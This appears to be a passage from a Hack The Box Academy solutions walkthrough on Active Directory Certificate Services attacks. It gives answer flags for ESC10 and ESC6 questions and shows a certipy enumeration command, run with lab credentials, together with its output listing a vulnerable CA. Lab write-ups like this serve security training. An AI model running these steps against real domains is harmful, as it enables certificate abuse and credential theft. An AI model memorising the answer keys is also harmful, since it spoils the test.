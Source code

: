 Answer: `HTB{ESC10_ATT4CK}`

# ESC6

## Question 1

### "Which flag, if set, makes the server vulnerable to ESC6 if not updated?"

If the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag is set, it renders a CA vulnerable to `ESC6`, unless it is updated:

![[HTB Solutions/CAPE/z. images/9d3036a25d163344999df1841ec021cb_MD5.jpg]]

Answer: `EDITF_ATTRIBUTESUBJECTALTNAME2`

# ESC6

## Question 2

### "Abuse the ESC6 misconfiguration and submit Jeffry's NT hash."

After spawning the target machine, students need to use `certipy` with the `find` command and the `-vulnerable` option to enumerate the ADCS CA for vulnerabilities, utilizing the credentials `blwasp@lab.local:Password123!`; students will discover that the CA suffers from the `ESC6` misconfiguration:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -vulnerable -stdout
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-7vhyh3ar8o]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.228.236 -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : lab-LAB-DC-CA
    DNS Name                            : LAB-DC.lab.local
    Certificate Subject                 : CN=lab-LAB-DC-CA, DC=lab, DC=local
    Certificate Serial Number           : 16BD1CE8853DB8B5488A16757CA7C101
    Certificate Validity Start          : 2022-03-26 00:07:46+00:00
    Certificate Validity End            : 2027-03-26 00:17:46+00:00
    Web Enrollment                      : Enabled
    User Specified SAN                  : Enabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Disabled
    Permissions
      Owner                             : LAB.LOCAL\Administrators
      Access Rights
```
